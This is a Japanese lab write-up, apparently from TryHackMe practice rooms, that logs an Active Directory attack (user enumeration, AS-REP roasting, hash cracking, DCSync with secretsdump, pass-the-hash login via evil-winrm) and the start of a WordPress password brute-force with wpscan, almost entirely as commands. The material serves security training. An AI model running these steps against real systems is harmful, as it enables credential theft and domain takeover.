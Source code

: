 ## Day 6: Active Directory のハッキング実践

nmap によるポートスキャンを実施し、88 Kerberos, 139 SMB が稼働していることを確認した。

```bash
$ nmap -p 88,135,139,3389 -A -Pn -oN nmap.txt -v 10.*.*.*
```

次に、AS-REP Roasting 攻撃のために [Kerbrute](https://github.com/ropnop/kerbrute) を使ってユーザーを列挙した。

```bash
$ sudo vim /etc/hosts // spookysec.local 追加
$ ./kerbrute_linux_amd64 userenum -d spookysec.local --dc spookysec.local userlist.txt
```

ユーザー名を変数に GetNPUsers.py を使って TGT を取得し、hashcat でパスワード解析を試みた。

```bash
$ ./GetNPUsers.py spookysec.local/svc-admin
$ hashcat -m 18200 hash.txt passwordlist.txt
```

この際、次のエラーが表示されたため、Vertual Box のメモリを 2024 → 4048MB に増やした。

```
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-8700B CPU @ 3.20GHz, 708/1480 MB (256 MB allocatable), 2MCU
```

次に、SMB クライアントを使ってバックアップファイルを取得し、その内容を Base64 デコードした。

```bash
$ smbclient -L \\\\spookysec.local -U svc-admin
$ smbclient \\\\spookysec.local\\backup -U svc-admin
$ cat backup_credentials.txt | base64 -d
```

最後に、DCSync 攻撃を行い、Pass the Hash 攻撃を使って管理者権限でログインした。

```bash
$ cp /usr/share/doc/python3-impacket/examples/secretsdump.py .
$ ./secretsdump.py -just-dc-ntlm backup@spookysec.local -outputfile spookysec
$ evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

## Day 7: WordPress のハッキング実践

nmap によるポートスキャンでマシンの偵察を行った。

```bash
$ sudo vim /etc/hosts // blog.thm 追加
$ nmap -A -Pn -oN nmap.txt -v blog.thm
```

次に、wpscan を使ってユーザー名を取得し、パスワードを辞書攻撃で解析した。

```bash
$ wpscan --url http://blog.thm --enumerate u
$ wpscan --url http://blog.thm -U kwheel,bjoel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 4
```
